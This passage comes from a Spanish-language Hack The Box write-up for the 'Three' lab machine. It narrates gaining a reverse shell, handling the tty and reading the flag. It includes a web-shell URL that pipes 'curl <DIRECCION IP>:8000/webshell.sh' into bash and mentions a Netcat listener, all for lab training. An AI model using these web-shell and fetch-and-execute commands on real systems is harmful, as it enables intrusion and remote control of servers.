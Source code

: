 ![Three yw4rf](../../../assets/HTB/Three/three-23.png)

Luego, creamos un servidor HTTP en el puerto 8000 utilizando Python con el comando `python3 -m http.server 8000`:

![Three yw4rf](../../../assets/HTB/Three/three-24.png)

Para que la **reverse shell** funcione correctamente debemos ingresar desde la URL el siguiente comando: `http://thetoppers.htb/shell.php?cmd=curl%20<DIRECCION IP>:8000/webshell.sh|bash`

![Three yw4rf](../../../assets/HTB/Three/three-25.png)

Verificamos la terminal donde se está ejecutando **Netcat** y confirmamos que la **reverse shell** ha funcionado correctamente. Ahora estamos operando como el usuario `www-data`.

![Three yw4rf](../../../assets/HTB/Three/three-26.png)

### tty-treatment

Lo primero que hago al acceder a la máquina a través de una **reverse shell** es configurar correctamente la tty para evitar posibles problemas innecesarios.

![Three yw4rf](../../../assets/HTB/Three/three-27.png)
![Three yw4rf](../../../assets/HTB/Three/three-28.png)

Como vemos nos encontramos en el directorio raíz del servidor web Apache alojado en el puerto 80: 

![Three yw4rf](../../../assets/HTB/Three/three-29.png)

Después de ejecutar el comando `find / -name flag.txt 2>/dev/null` para localizar la flag, el sistema me indica que se encuentra en el directorio `/var/www/`. Luego, utilizo el comando `cd` para acceder a ese directorio y `cat` para visualizar el contenido de la flag.

![Three yw4rf](../../../assets/HTB/Three/three-30.png)

Una vez obtenida la flag hemos finalizado la máquina y por ende hemos terminado.
